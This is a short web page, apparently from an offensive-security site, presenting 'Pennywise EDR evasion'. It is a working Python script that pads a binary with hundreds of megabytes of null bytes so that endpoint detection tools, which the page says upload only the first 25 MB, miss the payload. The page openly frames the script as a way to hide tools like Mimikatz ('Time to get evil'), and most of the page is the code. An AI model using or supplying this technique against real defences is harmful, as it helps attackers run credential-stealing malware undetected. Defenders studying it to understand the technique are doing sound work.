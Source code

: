 ```yaml
---
layout: attack
title: Pennywise EDR evasion
---
```


<img height="200" align="left" src="/images/pennywise.png"> <br><br>Wanna have a balloon? This Tiny script helps to hide your payload (like Mimikatz.exe) by inflating the Binary like a red ballon. Most EDR Tools only transfer the first 25 MB to the Server, so why not filling up the payload with some garbage and play some mind tricks? This change of the file size will keep the binary as it is but busts the file size. TIme to get evil ...

<br><br><br><br><br><br>
Tiny intro how this script works:

![](../images/pennywise_inflate.gif)

```python
#!/usr/bin/env python3
import argparse
import struct
import sys


parser = argparse.ArgumentParser(
    description="Pennywise's Red Balloon - Inflate your Payload"
)

parser.add_argument(
    "-f",
    "--file",
    help="Binary or file path including the binary",
)

parser.add_argument(
    "-s", 
    "--size",
    default=150,
    help="Size in MB to inflate binary - Default 150 MB", 
    type=int
)

args = parser.parse_args()

if len(sys.argv) <= 1:
    parser.print_help()
    sys.exit(1)

if not args.file:
    print("[!] Binary or path to a binary required!\n\n"
    "\t$ python -f c:\\fun\\mimikatz.exe -s 100\n"
    "\t$ python -f mimikatz.exe -s 250\n\n")
    parser.print_help()
    sys.exit(1)    

def transform(file, size):
    print("[!]\tInflating %s by %s MB" % (file, size))
    blank_bytes = struct.pack('B', 0)
    
    with open(file, 'ab') as file:
        file.write(blank_bytes * 1024 * 1024 * size)
        
    print("[!]\tOperation Complete...\n")

if __name__ == "__main__":
    transform(args.file, args.size)
```
